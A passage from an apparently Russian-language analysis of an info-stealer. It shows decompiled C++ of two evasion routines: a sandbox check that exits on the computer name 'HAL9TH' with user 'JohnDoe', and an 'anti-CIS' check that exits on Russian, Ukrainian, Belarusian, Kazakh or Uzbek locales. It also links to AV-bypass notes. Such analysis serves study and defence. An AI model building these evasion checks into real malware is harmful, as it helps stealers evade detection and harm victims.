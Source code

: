 ```cpp
  LPSTR computername; // eax
  int result; // eax
  CHAR *username; // eax
  CHAR *v3; // [esp-4h] [ebp-4h]
  _BYTE *v4; // [esp-4h] [ebp-4h]

  v3 = (CHAR *)HAL9TH;
  computername = mlw_get_computername();
  result = strcmp(computername, v3);
  if ( !result )
  {
    v4 = (_BYTE *)JohnDoe;
    username = mlw_get_username();
    result = strcmp(username, v4);
    if ( !result )
      ExitProcess(0);
  }
  return result;
}
```
Больше об этом можно почитать [здесь](https://book.hacktricks.xyz/windows-hardening/av-bypass)

# Anti Cis

Не дает запуститься стиллеру на пк жителей стран бывшего снг.

```cpp
int mlw_anti_cis()
{
  int lang; // eax

  lang = GetUserDefaultLangID();
  switch ( (__int16)lang )
  {
    case 1049:                                  // Russia
      ExitProcess(0);
    case 1058:                                  // Ukrainian (Ukraine)
      ExitProcess(0);
    case 1059:                                  // Belarusian (Belarus)
      ExitProcess(0);
    case 1087:                                  // Kazakh (Kazakhstan)
      ExitProcess(0);
    case 1091:                                  // Uzbek (Latin, Uzbekistan)
      ExitProcess(0);
    default:
      return lang;
  }
}
```

# Anti double run
